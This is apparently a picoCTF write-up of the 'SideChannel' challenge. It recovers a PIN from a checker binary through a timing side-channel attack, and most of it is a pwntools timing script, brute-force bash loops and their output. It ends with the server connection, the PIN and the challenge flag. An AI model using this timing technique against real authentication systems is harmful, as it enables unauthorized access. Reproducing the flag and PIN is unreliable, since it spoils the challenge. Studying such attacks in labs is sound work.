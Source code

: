 # SideChannel   

## Description

There's something fishy about this PIN-code checker, can you figure out the PIN and get the flag?
Download the PIN checker program here [pin_checker](https://artifacts.picoctf.net/c/145/pin_checker)
Once you've figured out the PIN (and gotten the checker program to accept it), connect to the master server using nc saturn.picoctf.net 52680 and provide it the PIN to get your flag.


## Hint(s)

1. Read about "timing-based side-channel attacks."
2. Attempting to reverse-engineer or exploit the binary won't help you, you can figure out the PIN just by interacting with it and measuring certain properties about it.
3. Don't run your attacks against the master server, it is secured against them. The PIN code you get from the pin_checker binary is the same as the one for the master server.

## Writeup 

As the name suggests, this name is about timing-based attacks. 
**Make sure you read about the attack [here](https://medium.com/spidernitt/introduction-to-timing-attacks-4e1e8c84b32b)**

Anyway, we are given an executable file. We have to figure out how much time it takes for the file to return an answer after we input our PIN code. 
Time to get coding!

I found this script from this write-up. This script does the job perfectly :
```py
from pwn import *
import time
import sys

io = process(['./pin_checker'])
context.arch = 'amd64'
gs = '''
continue
'''

pin = str(sys.argv[1])


io.sendline(pin)

io.recvline()
io.recvline()
io.recvline()

start = time.time()
recevied4 = io.recvline()

stop = time.time()
time_taken = stop - start

log.info(f"Time taken: {time_taken}")
log.info(f"Received4: {recevied4}")
log.info(f"Guess: {pin}")

sys.exit()
```
We can start with inputting 100000000 which returns : 

```
$ python3 exploit.py 10000000                                                                             
[+] Starting local process './pin_checker': pid 1508
[*] Time taken: 0.3032264709472656
[*] Received4: b'Access denied.\n'
[*] Guess: 10000000
[*] Stopped process './pin_checker' (pid 1508)
```
Now, If we were to manually run the script over and over it'd take a long time. So i wrote a simple bash script that does this for us.
```sh
#!/bin/bash

python3 exploit.py 00000000
python3 exploit.py 10000000
python3 exploit.py 20000000
python3 exploit.py 30000000
python3 exploit.py 40000000
python3 exploit.py 50000000
python3 exploit.py 60000000
python3 exploit.py 70000000
python3 exploit.py 80000000
python3 exploit.py 90000000
```
Now running this returns : 
```
[+] Starting local process './pin_checker': pid 1544

[*] Time taken: 0.1728212833404541
[*] Received4: b'Access denied.\n'
[*] Guess: 00000000
[*] Process './pin_checker' stopped with exit code 1 (pid 1544)
[+] Starting local process './pin_checker': pid 1548

[*] Time taken: 0.1890273094177246
[*] Received4: b'Access denied.\n'
[*] Guess: 10000000
[*] Process './pin_checker' stopped with exit code 1 (pid 1548)
[+] Starting local process './pin_checker': pid 1552

[*] Time taken: 0.20344209671020508
[*] Received4: b'Access denied.\n'
[*] Guess: 20000000
[*] Process './pin_checker' stopped with exit code 1 (pid 1552)
[+] Starting local process './pin_checker': pid 1556

[*] Time taken: 0.2079334259033203
[*] Received4: b'Access denied.\n'
[*] Guess: 30000000
[*] Process './pin_checker' stopped with exit code 1 (pid 1556)
[+] Starting local process './pin_checker': pid 1560

[*] Time taken: 0.3650705814361572
[*] Received4: b'Access denied.\n'
[*] Guess: 40000000
[*] Process './pin_checker' stopped with exit code 1 (pid 1560)
[+] Starting local process './pin_checker': pid 1564

[*] Time taken: 0.1933596134185791
[*] Received4: b'Access denied.\n'
[*] Guess: 50000000
[*] Process './pin_checker' stopped with exit code 1 (pid 1564)
[+] Starting local process './pin_checker': pid 1568

[*] Time taken: 0.196638822555542
[*] Received4: b'Access denied.\n'
[*] Guess: 60000000
[*] Process './pin_checker' stopped with exit code 1 (pid 1568)
[+] Starting local process './pin_checker': pid 1572

[*] Time taken: 0.1914525032043457
[*] Received4: b'Access denied.\n'
[*] Guess: 70000000
[*] Process './pin_checker' stopped with exit code 1 (pid 1572)
[+] Starting local process './pin_checker': pid 1576

[*] Time taken: 0.19887447357177734
[*] Received4: b'Access denied.\n'
[*] Guess: 80000000
[*] Process './pin_checker' stopped with exit code 1 (pid 1576)
[+] Starting local process './pin_checker': pid 1580

[*] Time taken: 0.1977241039276123
[*] Received4: b'Access denied.\n'
[*] Guess: 90000000
[*] Process './pin_checker' stopped with exit code 1 (pid 1580)
```

As we can clearly see, **40000000** took the longest time. 
Then we update our bash script
```sh
#!/bin/bash

python3 exploit.py 40000000
python3 exploit.py 41000000
python3 exploit.py 42000000
python3 exploit.py 43000000
python3 exploit.py 44000000
python3 exploit.py 45000000
python3 exploit.py 46000000
python3 exploit.py 47000000
python3 exploit.py 48000000
python3 exploit.py 49000000
```

We keep doing this untill we get the right pin!
```
[+] Starting local process './pin_checker': pid 1619
[*] Time taken: 1.5294091701507568
[*] Received4: b'Access granted. You may use your PIN to log into the master server.\n'
[*] Guess: 48390513
[*] Process './pin_checker' stopped with exit code 1 (pid 1619)
```
And then we connect to the master server,
```
nc saturn.picoctf.net 52680
```
Input the PIN code and get the flag!
```
$ nc saturn.picoctf.net 52680
Verifying that you are a human...
Please enter the master PIN code:
48390513
Password correct. Here's your flag:
picoCTF{t1m1ng_4tt4ck_914c5ec3}
```

One of my favorite challenges so far. The concept of time based attacks is just amazing.